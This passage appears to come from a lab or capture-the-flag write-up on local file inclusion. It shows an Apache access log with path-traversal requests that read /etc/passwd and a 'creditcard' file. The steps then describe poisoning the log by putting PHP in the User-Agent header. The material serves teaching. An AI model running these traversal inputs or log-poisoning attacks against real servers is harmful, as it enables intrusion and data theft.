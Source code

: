 ```apache
10.11.8.219 - - [20/Sep/2020:03:42:51 -0700] "GET / HTTP/1.1" 200 588 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0" 10.11.8.219 - - [20/Sep/2020:03:42:51 -0700] "GET /favicon.ico HTTP/1.1" 404 491 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0" 10.11.8.219 - - [20/Sep/2020:03:42:53 -0700] "GET /lfi/lfi.php HTTP/1.1" 200 263 "http://10.10.129.193/" "Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0" 10.11.8.219 - - [20/Sep/2020:03:43:52 -0700] "GET /lfi/lfi.php?page= HTTP/1.1" 200 264 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0" 10.11.8.219 - - [20/Sep/2020:03:43:55 -0700] "GET /lfi/lfi.php?page=1 HTTP/1.1" 200 265 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0" 10.11.8.219 - - [20/Sep/2020:03:43:57 -0700] "GET /lfi/lfi.php?page=2 HTTP/1.1" 200 265 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0" 10.11.8.219 - - [20/Sep/2020:03:45:28 -0700] "GET /lfi/lfi.php?page= HTTP/1.1" 200 264 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0" 10.11.8.219 - - [20/Sep/2020:03:45:35 -0700] "GET /lfi/lfi.php?page=home.html HTTP/1.1" 200 337 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0" 10.11.8.219 - - [20/Sep/2020:03:47:24 -0700] "GET /lfi/lfi.php?page=../../../etc/passwd HTTP/1.1" 200 327 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0" 10.11.8.219 - - [20/Sep/2020:03:47:28 -0700] "GET /lfi/lfi.php?page=../../../../etc/passwd HTTP/1.1" 200 1153 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0" 10.11.8.219 - - [20/Sep/2020:03:52:23 -0700] "GET /lfi2/lfi.php HTTP/1.1" 200 269 "http://10.10.129.193/" "Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0" 10.11.8.219 - - [20/Sep/2020:03:52:55 -0700] "GET /lfi2/lfi.php?page=1 HTTP/1.1" 200 271 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0" 10.11.8.219 - - [20/Sep/2020:03:53:08 -0700] "GET /lfi2/lfi.php?page=home.html HTTP/1.1" 200 335 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0" 10.11.8.219 - - [20/Sep/2020:03:54:18 -0700] "GET /lfi2/lfi.php?page=../creditcard HTTP/1.1" 200 346 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0" 10.11.8.219 - - [20/Sep/2020:03:56:08 -0700] "GET /lfi2/lfi.php?page=../../etc/passwd HTTP/1.1" 200 334 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0" 10.11.8.219 - - [20/Sep/2020:03:56:12 -0700] "GET /lfi2/lfi.php?page=../../../etc/passwd HTTP/1.1" 200 333 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0" 10.11.8.219 - - [20/Sep/2020:03:56:15 -0700] "GET /lfi2/lfi.php?page=../../../,,.etc/passwd HTTP/1.1" 200 336 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0" 10.11.8.219 - - [20/Sep/2020:03:56:20 -0700] "GET /lfi2/lfi.php?page=../../../../etc/passwd HTTP/1.1" 200 333 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0" 10.11.8.219 - - [20/Sep/2020:03:56:23 -0700] "GET /lfi2/lfi.php?page=../../../../../etc/passwd HTTP/1.1" 200 1158 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0" 10.11.8.219 - - [20/Sep/2020:03:59:27 -0700] "GET /lfi/lfi.php HTTP/1.1" 200 264 "http://10.10.129.193/" "Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0" 10.11.8.219 - - [20/Sep/2020:03:59:31 -0700] "GET /lfi/lfi.php HTTP/1.1" 200 263 "http://10.10.129.193/" "Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0" 10.11.8.219 - - [20/Sep/2020:04:00:30 -0700] "GET /lfi/lfi.php?page=../../../log/apach2/access.log HTTP/1.1" 200 337 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0" 
```

### 4. 
The above is clearly readable; although, not that pretty. This means we(the web-application) has read permissions in this directory.

### 5. 
Now, we'll poison the log. We can inject some malicious PHP code into our `User Agent` section of our server request. It will be executed when the file is _included_ as it will be run by the PHP server.
